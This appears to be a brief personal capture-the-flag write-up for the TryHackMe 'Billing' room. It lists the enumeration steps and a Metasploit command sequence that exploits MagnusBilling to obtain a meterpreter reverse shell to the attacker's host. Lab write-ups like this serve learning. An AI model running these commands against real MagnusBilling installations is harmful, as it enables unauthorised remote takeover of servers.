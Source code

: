 
2025-03-31 20:59

Source: #tryhackme #Boot2root 

Web page at port 80 which has a login page
### Enumeration 

Dirsearch shows a lot of options 
`README.md` holds version number of the service running on the app (i.e. MagnusBilling)

Then I did a bit of digging online and found [this](https://eldstal.se/advisories/230327-magnusbilling.html). (This didn't work)
### Exploiting 

Because this exploit was on Metasploit we do it that way 
below is the list of commands used to obtain meterpreter shell from start to end 
```
msfconsole 
search MagnusBilling
use 0 
set LHOST tun0
set RHOSTS billing.thm
exploit 
```

After getting the meterpreter shell type `shell` to get access to all Unix shell commands 


### References
[TryHackMe | Billing](https://tryhackme.com/room/billing)